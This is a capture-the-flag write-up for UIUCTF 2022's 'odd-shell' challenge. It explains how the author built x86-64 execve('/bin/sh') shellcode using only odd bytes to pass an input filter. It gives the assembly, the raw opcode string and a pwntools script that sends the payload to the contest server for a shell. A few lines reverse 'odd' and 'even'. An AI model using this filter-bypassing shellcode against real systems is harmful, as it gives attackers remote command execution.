



# Challenge Description
```
O ho! You found me! I have a display of oddities available to you!

$ nc odd-shell.chal.uiuc.tf 1337

Author: Surg

Category: pwn, shellcode
```
[Challenge Executable File](https://2022.uiuc.tf/files/9a315dc699ddcf1b959e5aa70fcd1f7f/chal?token=eyJ1c2VyX2lkIjoxNTgsInRlYW1faWQiOjgwLCJmaWxlX2lkIjo2NDV9.Yuebnw.PiGm7H8yoGfb6YrLgP9zZ6yXKN4)

# TL;DR
The challenge restricts use of any opcodes that is even. Had to use a good number of arithmetic operations to circumvent that which I've detailed in the below write-up. Used `execve("/bin/sh", NULL, NULL)` to get the shell. The tricky part was to figure out how to craft the assembly without even a single odd byte opcode. 

[Shellcode Assembly](./shellcode-assembly.md). 

[The exploit code in python](#final-exploit).

# Intro
As with usual pwn challenges and also as the challenge description says, we can safely guess that it involves getting a shell by crafting some shellcode. To be honest, unlike other shellcode challenges where we make use of some ready-made shellcodes available on the internet (like [shell-storm](https://shell-storm.org/shellcode/)), this challenge really tested my skill forcing me to manually craft shellcode all while putting some odd (!) restrictions over what type of shellcode i'm allowed to use. This will be clearer in the next section. But I'll admit that I truly enjoyed the challenge, it was like putting different pieces of puzzle blocks together to get to the final solution.

For those new to shellcode use, you can check out this comprehensive tutorial on shellcoding basics at [Linux Shellcoding (Part 1.0) - Exploit Development - 0x00sec - The Home of the Hacker](https://0x00sec.org/t/linux-shellcoding-part-1-0/289). For the sake of completeness, shellcode is basically a series of instructions which are executed sequentially to do what we want it to do. Its named such because most of the time the purpose of executing those instructions is to get a command line shell. And then through that shell, the attacker can do a myriad of things.

Before going into the main walkthrough, one important thing to keep in mind about shellcoding is we usually write the instructions in assembly. Each assembly instruction is then converted to a series of opcodes and these opcodes are what the machine understands and executes. Opcodes are generally written in hex. Several online sites do these conversions. I use  [defuse.ca](https://defuse.ca/) for this.

Thats all for Intro, now lets try to understand what the challenge is about.

# Understanding the problem
The very first thing I do after getting a challenge binary is I first run it to see what it does and then open it in Ghidra to see what magic is really going on there. Following is the output after running the binary.



So the binary just shows the text `Display your oddities:` and waits for input. I tried random input and it shows `Invalid Character`. Now its time to switch to Ghidra and decompile the binary. For newbies, Ghidra is the swiss-army knife of reverse engineering tools developed by NSA and you can download it from [Ghidra (ghidra-sre.org)](https://ghidra-sre.org/).

Opening the binary in Ghidra we can see there's a `main` function which does the following (only the major portion of the code is shown):



The three blocks of code (marked in the above image) are fairly trivial to understand. The first two (marked blue and green) set up a buffer for taking user input, take the input, make the terminating newline a 0 and decrement the input length by 1 to account for the added newline at the end. You can see that the starting address of the buffer is fixed in the code (`0x12341234000` inside `mmap`) which is not usually the case. So, initially, I thought that was somehow significant for solving the challenge. But for my solution, I didn't need it at all. Also, the `read` function accepts an input size of `0x800` which is basically an indication that this challenge is not a buffer-overflow problem.

The Main interesting part of the challenge is in block 3 (marked red). Its clearly visible that our code which was put at memory address `0x12341234000` is being executed (line 27), a perfect candidate program to inject shellcode. In plain words, whatever input we give to the program it'll be executed as code. But hold on, what's this in `line 30`. **The code at this line is checking whether each byte of input that we give is an odd byte or not**. If its odd, then the program continues through the loop, otherwise it breaks out from the loop and our code is never executed printing that `Invalid Character` message that we got in our sample run. Now, I guess, we've got a fair idea of what we need to do.

To summarize, 
```
We need to give an input so that each byte of that input is ODD and after executing the input, we'd get a SHELL.
```

# Walkthrough
One common approach to get a shell is to execute `execve("/bin/sh", NULL, NULL)`. `execve` has the function signature *int execve(const char *pathname, char *const argv[], char *const envp[]);*, it executes the program referred to by the `pathname`. So we are pointing `execve` to `"/bin/sh"` and setting the rest of the arguments to `NULL` cz we don't need any argument or environment variables to be set and it also keeps the solution simple. Note that, `/bin/sh` is basically the executable which is run when a shell is spawned.

## Craft execve syscall in assembly
Now the hardest part. We need to emulate this `execve("/bin/sh", NULL, NULL)` call in assembly. For this, a good understanding of assembly and x86-64 calling convention is needed. For a primer on these two, [CS107 Guide to x86-64 (stanford.edu)](https://web.stanford.edu/class/cs107/guide/x86-64.html) is a good starting point. `execve` is a system call function in linux, so we have to use the `syscall` assembly instruction to execute it. Each system call has an associated number which uniquely identifies it. The list of system call functions, their function signature can be found at [Linux System Call Table for x86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/). The way this `syscall` works is we've to put the function number (`0x3b` or `59` for `execve`) in `rax` register, the 1st argument to the system call function in `rdi`, 2nd argument in `rsi` and 3rd argument in `rdx`. If there are more arguments to a function, they can be put in other designated registers (upto six) following the [x86-64 calling conventions](https://en.wikipedia.org/wiki/X86_calling_conventions#x86-64_calling_conventions). But for our purpose, knowing only 3 is enough. So, our goal is clear. Populate the registers as mentioned above and do `syscall`. And voila! we get a shell. But turns out its not as simple as we think. Why? bcz of that restriction of passing only ODD bytes. We have to write assembly instructions in such a way that the resulting opcodes doesn't have any even byte. Huh :(

#### Fix rdi
Lets tackle one problem at a time. First, fix the `rdi` register which would contain the first argument to `execve`. So, shall we just put `"/bin/sh"` in `rdi`? NO. From the function signature of `execve` we know that this first parameter is basically a character pointer (*char \**). When they are passed between functions, in effect a pointer or memory address of the location where that character array resides is passed. So, we have to put the memory address containing the string `"/bin/sh"` in `rdi`. We need stack to do this because we can easily store data in stack through the `push` instruction. We push the string `"/bin/sh"` on stack and then put the value of `rsp` in `rdi` bcz `rsp` points to the top of the stack.

`"/bin/sh"` in hex is `0x2f62696e2f736800`, the ending zeroes basically correspond to \0 to mark end of string. As we're working with a little endian machine, we need to put `0x0068732f6e69622f` on the stack i.e. least significant bytes in lower positions. Now, how do we push this value on the stack? We can't just use `push 0x0068732f6e69622f` because there are even bytes in the resulting opcode of this instruction. This is where we need to get creative and its the main problem that this challenge wants us to solve. If we can somehow manipulate a register through the use of arithmetic instructions (`add`, `sub` etc.) to hold this value, after that we just push the register like `push <register>`. Here, we need to think ahead a bit first so that we dont hit any dead-end. What I mean by this is first we should find out which `push <register>` results in opcodes with only odd bytes. I had to try most possible combinations of this instruction to check this and found that `push r9` results in opcode with all odd bytes (`0x41 0x51`).  Now that we got a register, its time to do some math magic to populate `r9` with our desired value. Similar to the `push` instruction we cant just directly put the value in `r9`. Instead, we'll put the first 2 bytes of `0x0068732f6e69622f` to the rightmost part of `r9` and then shift `r9` by 16 to make room for the next two bytes and so on. Diagrammatically, this procedure of populating and shifting would look like the following:


We need to do some arithmetic operations to yield these bytes and then store them in `r9` following the above mentioned way. It turns out we can't directly use `r9` or its other low-order variants in instructions involving arithmetic operations cz they produce even byte opcodes. But lucky for us, `r11d` is our savior which emits odd opcodes in arithmetic operations i.e. we can do operations like `add r11d, 0x5`. One important thing we need to keep in mind here is that the value that we're adding with `r11d` must not have any 0's in them, thats why we need to provide a whole 4-byte value where each byte is an odd number. After we've our desired value in `r11d` we can then do a `or` operation with `r9` which will basically copy whatever is in `r11d` to `r9`. For this to work, the least significant 2 bytes of `r9` should have 0 in them which we can achieve with `xor r9, r9`. This works because `x or 0 = x` . Considering all these info, the following sequence of instructions will put `0x0068` in r9 and leave the least-significant 2 bytes as 0.
```assembly

mov    r11d,0xfffffff1
sub    r11d,0xffffff89
xor    r9,r9
or     r9,r11
shl    r9,0xf
shl    r9,1
```
Here, we've shifted `r9` twice as we cant directly shift by `0x10` or 16 which is an even number. So first we shifted by 15 and then again by 1. Clever, huh? :)
So, we understand now how its going to work, right? Following this same approach, we put the other bytes accordingly in `r9` through the below sequence of instructions.
```assembly
mov    r11d,0xffffff11
sub    r11d,0xffff8be1
dec    r11d
or     r9,r11          ; 0x73 0x2f
shl    r9,0xf
shl    r9,1

mov    r11d,0xfffffff1
sub    r11d,0xffff9187
dec    r11d
or     r9,r11          ; 0x6e 0x69
shl    r9,0xf
shl    r9,1

mov    r11d,0xfffffff1
sub    r11d,0xffff9dc1
dec    r11d
or     r9,r11          ; 0x62 0x2f

push   r9              ; put 0x0068732f6e69622f or "/bin/sh" on stack
```
One thing to notice here is that we've used `dec` after each `sub` instruction. The reason behind this is the values that we want like `0x732f` or `0x6e69` are odd numbers themselves. And we can only get odd numbers if we subtract an even number from an odd number or vice-versa. That'd mean one of our operands (either in `mov` or `sub`) would be an even number which we can't have. To make our way around this, we subtract two odd numbers so that we get our `desired value + 1` and then we decrement that value to get to our desired value. Neat, right? :)

So, we've tackled a very difficult part. Rest is easy. Now, we've the string `"/bin/sh"` in the stack. Next we need to get the address of the top of the stack and put it in `rdi`. We can't directly do `mov rdi, rsp` or `push rsp; pop rdi` bcz these result in odd byte opcodes (😤). Instead we zero out `r9`, or `r9` with `rsp` to get whatever is there in `rsp` to `r9` (like we did before) and then we push `r9` on the stack. Now on top of the stack we have the memory address pointing to `"/bin/sh"` and if we now do `pop rdi`, `rdi` will have that address too. Fortunately for us, `pop rdi` emits only odd byte opcodes. Great! The following sequence of instructions does this:
```assembly
xor    r9,r9
or     r9,rsp
push   r9
pop    rdi
```
So we fixed `rdi` 🙌

#### Fix rsi, rdx, rax
We cant directly set `rsi`, `rdx` to 0 by doing something like `mov rsi, 0` or `xor rsi, rsi`, the reason being even byte opcodes. I had to try out a plethora of ways to figure out how to make them zero. Then I found that I can do `xor ecx, ecx` and then do `movzx esi, cx` and `movzx edx, cx`. The later two instructions zero-extends cx to esi. You might be wondering I've only made `esi` to 0 but what about the higher 32 bits that form the whole `rsi` because we've to make `rsi` to 0 not just `esi`. Here comes one subtle thing about x86-64 assembly to our rescue. In it, any 32-bit data move to a register also zeroes out the most significant 32-bit of that register. So `movzx esi, cx` will also result in `rsi` to be zero. Similar for `rdx`.  Following is the sequence of instructions to zero out `rdx` and `rsi`:
```assembly
xor    ecx,ecx
movzx  edx,cx
movzx  esi,cx
```
One thing to point out here, before executing our input, the program moves 0 to `eax`, effectively setting `rax` to 0. It can be seen in the following image:



So, our goal is to put `0x3b` or 59 in `rax` which we can achieve if we can put this value in `al` only cz the rest of `rax` is 0. But unfortunately we cant do `mov al, 0x3b`,  `mov ax, 0x3b`, `mov eax, 0x3b`. None of this. I was wondering for quite some time regarding this. Then it occurred to me that I can use `lea` to do arithmetic operations and after testing, I found that it also emits only odd byte opcodes. So, we have 0 in `ecx ` and if we add `0x3b` with ecx and put the result in `eax`, we get what we want. The following does just this using `lea`:
```assembly
lea    eax,[ecx+0x3b]
```

### syscall
Now, after applying all these clever techniques to get around the odd-byte restriction, we're finally ready to do the coveted `syscall` thereby spawning a shell for us.

The full assembly can be found [here](./shellcode-assembly.md).

## Convert assembly to opcodes
We need to convert the assembly that we crafted to a sequence of opcodes for us. As mentioned, I use [defuse.ca](https://defuse.ca/) for this. The sequence of opcodes is the following:
```
\x41\xBB\xF1\xFF\xFF\xFF\x41\x83\xEB\x89\x4D\x31\xC9\x4D\x09\xD9\x49\xC1\xE1\x0F\x49\xD1\xE1\x41\xBB\x11\xFF\xFF\xFF\x41\x81\xEB\xE1\x8B\xFF\xFF\x41\xFF\xCB\x4D\x09\xD9\x49\xC1\xE1\x0F\x49\xD1\xE1\x41\xBB\xF1\xFF\xFF\xFF\x41\x81\xEB\x87\x91\xFF\xFF\x41\xFF\xCB\x4D\x09\xD9\x49\xC1\xE1\x0F\x49\xD1\xE1\x41\xBB\xF1\xFF\xFF\xFF\x41\x81\xEB\xC1\x9D\xFF\xFF\x41\xFF\xCB\x4D\x09\xD9\x41\x51\x4D\x31\xC9\x49\x09\xE1\x41\x51\x5F\x31\xC9\x0F\xB7\xD1\x0F\xB7\xF1\x67\x8D\x41\x3B\x0F\x05
```

## Final Exploit

The following python code establishes a connection and sends the payload. And voila, we get a shell. For the flag though, we had to navigate to the root directly and print it out.
```python
#!/usr/bin/env python3


from pwn import *


host = 'odd-shell.chal.uiuc.tf'
port = '1337'

p = remote(host, port)
 

response = p.recvuntil("oddities:\n")
print(response)
print("sending payload")
p.sendline(b"\x41\xBB\xF1\xFF\xFF\xFF\x41\x83\xEB\x89\x4D\x31\xC9\x4D\x09\xD9\x49\xC1\xE1\x0F\x49\xD1\xE1\x41\xBB\x11\xFF\xFF\xFF\x41\x81\xEB\xE1\x8B\xFF\xFF\x41\xFF\xCB\x4D\x09\xD9\x49\xC1\xE1\x0F\x49\xD1\xE1\x41\xBB\xF1\xFF\xFF\xFF\x41\x81\xEB\x87\x91\xFF\xFF\x41\xFF\xCB\x4D\x09\xD9\x49\xC1\xE1\x0F\x49\xD1\xE1\x41\xBB\xF1\xFF\xFF\xFF\x41\x81\xEB\xC1\x9D\xFF\xFF\x41\xFF\xCB\x4D\x09\xD9\x41\x51\x4D\x31\xC9\x49\x09\xE1\x41\x51\x5F\x31\xC9\x0F\xB7\xD1\x0F\xB7\xF1\x67\x8D\x41\x3B\x0F\x05")

p.interactive()
```

## Flag
`uiuctf{5uch_0dd_by4t3s_1n_my_r3g1st3rs!}`
